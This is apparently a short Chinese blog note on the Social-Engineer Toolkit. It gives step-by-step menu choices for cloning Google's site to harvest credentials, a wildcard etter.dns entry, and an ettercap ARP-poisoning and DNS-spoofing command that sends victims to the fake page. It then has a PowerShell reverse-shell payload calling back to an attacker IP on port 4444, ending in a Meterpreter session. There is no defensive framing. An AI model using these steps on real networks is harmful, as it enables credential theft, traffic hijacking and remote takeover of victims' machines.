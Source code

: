 ```yaml
---
title: SET常用方法
date: 2024-01-13 20:29:29
tags: SET
mathjax: true
---
```


# SET常用方法

## Web攻击向量

依次选择选项1、2、3、1，即社会工程学攻击、Web攻击向量、证书获取攻击方式、使用Web模板，并输入目标主机IP地址，随后选择2，即克隆Google站点。

如果用户目录结构依赖/var/www/html目录，则需要复制/var/www/下所有文件到/var/www/html中，回车即可。

如果Apache等占用80端口，会提示关闭，y即可。

接下来需要使用Ettercap的dns_spoof插件实施ARP攻击和DNS欺骗。

修改/etc/ettercap/etter.dns，例如攻击主机IP为192.168.29.139，则添加：

```
*    A    192.168.29.139
```

使用Ettercap发起ARP攻击，启动dns_spoof插件，实施DNS欺骗：

```bash
ettercap -Tq -M arp:remote -P dns_spoof /192.168.29.139// /192.168.29.2//
```

当目标主机访问任何网站时都将欺骗到攻击主机创建的伪页面。

## PowerShell攻击向量

弹shell用。

依次选择选项1、9、1，输入攻击主机IP和反连接端口4444，是否现在开启监听选yes，然后自动跳转到MSF，生成的代码文件在/root/.set/reports/powershell/x86_powershell_injection.txt，可以复制到目标主机的DOS下运行，也可以改名为.bat运行。执行成功后能看到成功打开了一个Meterpreter会话：

```
sessions
sessions -i 1
```

进入Meterpreter。
